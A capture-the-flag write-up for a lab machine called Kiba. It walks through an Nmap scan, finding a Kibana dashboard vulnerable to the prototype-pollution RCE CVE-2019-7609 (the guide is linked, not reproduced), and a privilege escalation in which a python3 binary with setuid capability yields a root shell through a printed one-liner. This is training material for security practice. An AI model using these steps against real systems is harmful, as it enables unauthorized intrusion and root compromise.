 # Kiba

***
## Difficulty = Easy 

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/21098158-abca-49c1-a339-c52d93a2e670)

***

Running our Nmap scan we have :

```shell
# Nmap 7.94 scan initiated Sun Sep 10 08:46:49 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.10.117.138
Warning: 10.10.117.138 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.117.138
Host is up (0.29s latency).
Not shown: 65428 closed tcp ports (conn-refused), 103 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 10 Sep 2023 12:48:35 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 10 Sep 2023 12:48:26 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 10 Sep 2023 12:48:27 GMT
|_    {"statusCode":404,"error":"Not Found"}

---SNIP---

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 10 08:48:57 2023 -- 1 IP address (1 host up) scanned in 128.36 seconds
```

Port `80/HTTP` doesn't seem to give me what i want, even while performing **directory bruteforcing**, No directory/files where discovered 

![](https://i.imgur.com/PF4IzEG.png)

Port `5044` isn't loading up, but port `5601` gives us a **Kibana** Dashboard page

![](https://i.imgur.com/iDyTi8X.png)

Nice, we can navigate to the **Management** menu to see which version of kibana we are using, these will give us the chance to enumerate more:

![](https://i.imgur.com/7on4p0j.png)

>Cool, we have a **Prototype Pollution** vulnerability that allows attackers to exploit the rules of the JavaScript programming language, by injecting properties into existing JavaScript language construct prototypes, such as Objects to compromise applications in various ways. This could literally lead to **RCE**

Navigate to the **Timelion** menu and follow this [guide](https://github.com/mpgn/CVE-2019-7609) to know more about how the **RCE** took place 

![](https://i.imgur.com/IuZMTZK.png)
![](https://i.imgur.com/YfAX3WQ.png)

### Privilege Escalation

Running `getcap -r / 2>/dev/null` in other to check for files with Capabilities we can see that a python binary has been stored on the user **Kiba's** home directory, we can use this to get `root`

![](https://i.imgur.com/D6eCjOA.png)

Using this payload we can get elevated privileges as `root` 🐉

```shell
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![](https://i.imgur.com/zcmWUci.png)

Happy weekend and Have fun 

![](https://media.giphy.com/media/3o7527WMiaRJmrWMTe/giphy-downsized-large.gif)
